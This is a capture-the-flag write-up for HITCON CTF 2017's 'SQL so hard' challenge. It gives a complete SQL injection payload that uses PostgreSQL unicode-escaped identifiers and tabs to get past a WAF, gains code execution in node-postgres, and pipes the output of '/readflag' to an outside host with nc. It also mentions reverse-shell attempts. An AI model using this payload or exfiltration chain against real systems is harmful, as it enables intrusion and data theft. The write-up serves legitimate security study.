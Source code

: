 # [SQL so hard](https://github.com/orangetw/My-CTF-Web-Challenges/tree/master/hitcon-ctf-2017/sql-so-hard)

*[HITCON ctf 2017](https://ctf2017.hitcon.org)*

## tl;dr

`SELECT 1 FROM "\\'"` can be written as `SELECT 1 FROM U&"!005c'" UESCAPE '!'`. Change all spaces to tabs and
the WAF will be happy.

Our final exploit payload for the `username` field is:

```
','')\tON\tCONFLICT\t(username)\tDO\tUPDATE\tSET\tusername=''\tRETURNING\t1\tAS\tU&"!005c!0027+(r=process.mainModule.require,l=!0022!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022!002freadflag|nc!0020123.123!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(l+=!0022.123.123!00201234!0022)]!002f!002f"\tUESCAPE\t'!',\t1\tAS\tU&"!005c!0027+(r(!0022child_process!0022).execSync(l))]!002f!002f"\tUESCAPE\t'!';
```

## details

- be me
- know nothing about mysql
- know nothing about [`max_allowed_packet`](https://dev.mysql.com/doc/refman/5.7/en/packet-too-large.html)
- set up local env with postgres, node and `npm i pg@7.1.0` without mysql
- reproduce the [original vulnerability](https://node-postgres.com/announcements#2017-08-12-code-execution-vulnerability) (given as hint)
- spend hours researching unicode combining characters and diacritics
- find out unicode is not going to help
- see that we **definitely need** backslashes in the field name to exploit the vulnerable javascript literal
- start digging into `node pg`-s query parser
- learn that the field names are not parsed on the client side but are reflected from the server
- consult the PostgreSQL documentation
- find interesting [unicode quoted identifiers](https://www.postgresql.org/docs/9.5/static/sql-syntax-lexical.html#SQL-SYNTAX-IDENTIFIERS) `U&"!005c'" UESCAPE '!'`
- assemble query from `returning` clause, tabs and the above literals
- celebrate the RCE
- find out that `require` is not defined in `Function("require")()` calls in node modules
- use `process.mainModule.require`
- spend another half an hour wondering why do all the reverse shells close the connection immediately
- give up and just execute `ls /|nc xxx`
- find and execute `/readflag|nc xxx`
- `hitcon{if_you_dont_know_why_plz_check_mysql_max_allowed_packet}`
- submit, be surprised about what the flag is talking about and move on

